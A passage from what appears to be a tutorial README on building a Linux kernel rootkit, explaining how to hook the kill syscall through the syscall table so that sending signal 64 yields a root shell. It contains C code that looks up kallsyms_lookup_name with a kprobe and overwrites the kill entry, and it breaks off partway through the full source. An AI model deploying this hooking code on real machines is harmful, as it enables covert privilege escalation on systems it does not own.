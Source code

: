                   line2 :&nbsp; `int sig = (int) pt_regs->si` => Stores the passed argument, in this case it is: `64`, [source](https://xcellerator.github.io/posts/linux_rootkits_03/) (Only the 1st portion before _Hooking kill_).

                  Now, if the passed argument/ signal (or sig) is same as `GET_ROOT` (which is a macro defined) then we are gifted with a _rootshell_.

                  #### Now the question comes, "Why _`si`_ register, why not _`rsi`_ register?"

                  ***Ans***: Please follow the [commented lines](https://github.com/torvalds/linux/blob/15bc20c6af4ceee97a1f90b43c0e386643c071b4/arch/x86/include/asm/ptrace.h#L12).

                  I have told you earlier that the function type of original syscall must be same as the created syscall.
                  ```
                  static unsigned long *__sys_call_table;
                  
                  typedef asmlinkage long (*tt_syscall)(const struct pt_regs *);
                  static tt_syscall orig_kill;
                  orig_kill = (tt_syscall)__sys_call_table[__NR_kill];

                  and

                  static asmlinkage int hacked_kill(const struct pt_regs *pt_regs)
                  __sys_call_table[__NR_kill] = (unsigned long) hacked_kill;
                  ```
                  If you compare all the lines, you will see each function types are satisfying other function types, i.e. there is no function type mismatch. Although, if it doesn't match, obviously compiler will through you an error. I just showed this portion to you, as I was dealing with this same problem while creating this project.

          6. So, the whole code to get the rootshell via `sys_kill interception`:
                ```c
                  // filename: Test_hook_kill.h

                  #include <linux/syscalls.h>     /* Needed to use syscall functions */
                  #include <asm/ptrace.h>		/* For intercepting syscall, struct named pt_regs is needed */

                  #include <linux/kprobes.h>

                  // Setting which dynamic kernel symbol to find
                  static struct kprobe kp = {
                              .symbol_name = "kallsyms_lookup_name"
                  };

                  // https://xcellerator.github.io/posts/linux_rootkits_03/
                  #define GET_ROOT 64

                  /* For storing read cr0 control register value
                  *
                  * link: https://elixir.bootlin.com/linux/v5.11/source/arch/x86/include/asm/paravirt_types.h#L111
                  *
                  * unsigned long (*read_cr0)(void);
                  */
                  unsigned long cr0;
